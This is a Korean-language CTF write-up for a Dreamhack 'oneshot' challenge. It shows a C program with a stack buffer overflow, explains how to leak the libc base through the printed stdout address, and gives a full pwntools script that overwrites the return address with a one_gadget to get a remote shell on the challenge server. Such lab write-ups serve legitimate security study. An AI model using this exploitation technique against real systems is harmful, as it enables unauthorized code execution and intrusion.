 ```bash
// gcc -o oneshot1 oneshot1.c -fno-stack-protector -fPIC -pie

#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(60);
}

int main(int argc, char *argv[]) {
    char msg[16];
    size_t check = 0;

    initialize();

    printf("stdout: %p\n", stdout);

    printf("MSG: ");
    read(0, msg, 46);

    if(check > 0) {
        exit(0);
    }

    printf("MSG: %s\n", msg);
    memset(msg, 0, sizeof(msg));
    return 0;
}
```

onesoht gadget이란

oneshot-gadget은 해당 가젯의 주소로 점프하여 호출하는 것만으로 /bin/sh이 실행되는 가젯이다. 그저 ret 영역에 oneshot-gadget의 주소를 덮어씌워줌으로써 exploit 된다.

---

프로그램을 실행하면 printf를 통해 libc 내부 stdout 전역 변수의 주소가 출력되는데, 해당 주소로 오프셋 계산을 통해 libc_base 주소를 알아낼 수 있다.

![Image](/assets/img/oneshot/image1.png)

해당 결과를 통해 stdout의 offset은 0x3c5708 라는 것을 구할 수 있다.

이제 one_gadget을 찾아야 하는데, one_gadget은 심볼 테이블에 이름으로 등록된 게 아니고, 코드 내부 특정 instruction 흐름에서 조건이 맞으면 shell로 직행하는 주소이다. 

readelf -s 는 심볼(함수, 변수)만 보여주므로 one_gadget이 나오지않는다.

따라서 직접 libc 바이너리를 분석해서 offset을 뽑아주는 one_gadget 툴을 써야한다.

![Image](/assets/img/oneshot/image2.png)

![Image](/assets/img/oneshot/image3.png)

```bash
from pwn import *

def slog(name, addr):
    return success(": ".join([name, hex(addr)]))

p = remote("host3.dreamhack.games", 23842)
e = ELF("./oneshot")
libc = ELF("./libc.so.6")

one_gadget = 0x45216

p.recvuntil("stdout: ")
stdout = int(p.recvline()[:-1], 16)
base = stdout - libc.symbols["_IO_2_1_stdout_"]
one_gadget = base + one_gadget

slog("STDOUT", stdout)
slog("base", base)
slog("one gadget", one_gadget)

payload = b'A'*24
payload += b'\x00'*8
payload += b'B'*8
payload += p64(one_gadget)

p.sendafter("MSG: ", payload)
p.interactive()
```